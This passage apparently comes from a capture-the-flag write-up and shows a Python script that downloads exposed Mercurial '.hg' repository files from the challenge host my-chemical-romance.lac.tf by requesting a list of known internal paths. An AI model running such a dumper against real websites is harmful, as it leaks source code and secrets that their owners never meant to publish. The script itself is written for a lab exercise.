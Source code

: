 Nope...

After fumbling around, I was able to find [this](https://github.com/arthaud/hg-dumper) GitHub repository, which is a tool to dump a mercurial repository from a website.

However, I couldn't install it due to Python2. Maybe pip and virtualenv hates me :(

**So, I'll write a Python script to download all of them:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
import os

def download(URL, file):
    requestResult = requests.get(URL + file)

    if 'Error 404: Page Not Found' not in requestResult.text:
        print(f'[+] Found valid file: {file}')
        
        with open(file, 'wb') as fd:
            fd.write(requestResult.text.encode('utf-8'))

def main():
    listFiles = [
        '.hg/00changelog.i',
        '.hg/branch',
        '.hg/cache/branch2-served',
        '.hg/cache/branchheads-served',
        '.hg/cache/checkisexec',
        '.hg/cache/checklink',
        '.hg/cache/checklink-target',
        '.hg/cache/checknoexec',
        '.hg/dirstate',
        '.hg/hgrc',
        '.hg/last-message.txt',
        '.hg/requires',
        '.hg/store',
        '.hg/store/00changelog.i',
        '.hg/store/00manifest.i',
        '.hg/store/fncache',
        '.hg/store/phaseroots',
        '.hg/store/undo',
        '.hg/store/undo.phaseroots',
        '.hg/store/requires',
        '.hg/undo.bookmarks',
        '.hg/undo.branch',
        '.hg/undo.desc',
        '.hg/undo.dirstate',
        '.hgignore'
    ]

    URL = 'https://my-chemical-romance.lac.tf/'

    if not os.path.exists('.hg'):
        os.makedirs('.hg')
        os.makedirs('.hg/cache')
        os.makedirs('.hg/store')
        os.makedirs('.hg/wcache')

    for file in listFiles:
        thread = Thread(target=download, args=(URL, file))
        thread.start()
```